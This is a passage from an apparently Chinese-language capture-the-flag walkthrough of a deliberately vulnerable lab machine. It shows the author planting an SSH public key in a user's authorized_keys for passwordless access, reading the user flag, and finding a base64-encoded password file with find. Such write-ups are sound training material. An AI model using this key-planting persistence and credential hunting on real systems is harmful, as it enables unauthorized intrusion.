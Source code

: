 我们变成john了

但是好像也没有正常回显

对了，我们不是还有ssh服务吗

考虑生成一对RSA密钥

然后连上ssh服务

首先在本地生成

```shell
ssh-keygen
```

然后把生成的公钥丢到服务器上就可以了

```shell
john@literallyvulnerable:/home/john$ mkdir -p /home/john/.ssh
mkdir -p /home/john/.ssh
john@literallyvulnerable:/home/john$ echo "<你的公钥内容>" > /home/john/.ssh/authorized_keys
<MfUMM= root@kali" > /home/john/.ssh/authorized_keys
```

然后在本地应该就可以无密码连上ssh了

```shell
ssh john@192.168.31.166
john@literallyvulnerable:~$ 
```

拿到了完整的shell和john的用户权限

可以读到第一个flag了

```shell
john@literallyvulnerable:~$ cat user.txt 
Almost there! Remember to always check permissions! It might not help you here, but somewhere else! ;) 
Flag: iuz1498ne667ldqmfarfrky9v5ylki
```

接下来怎么做呢，

sudo -l 行不通 因为还是没有john的密码

一通fuzz

发现一个有趣的东西

```shell
john@literallyvulnerable:~$ find . -type f -iname "*password*"
./.local/share/tmpFiles/myPassword
```

cat 一下

```shell
cat ./.local/share/tmpFiles/myPassword
I always forget my password, so, saving it here just in case. Also, encoding it with b64 since I don't want my colleagues to hack me!
am9objpZWlckczhZNDlJQiNaWko=
```
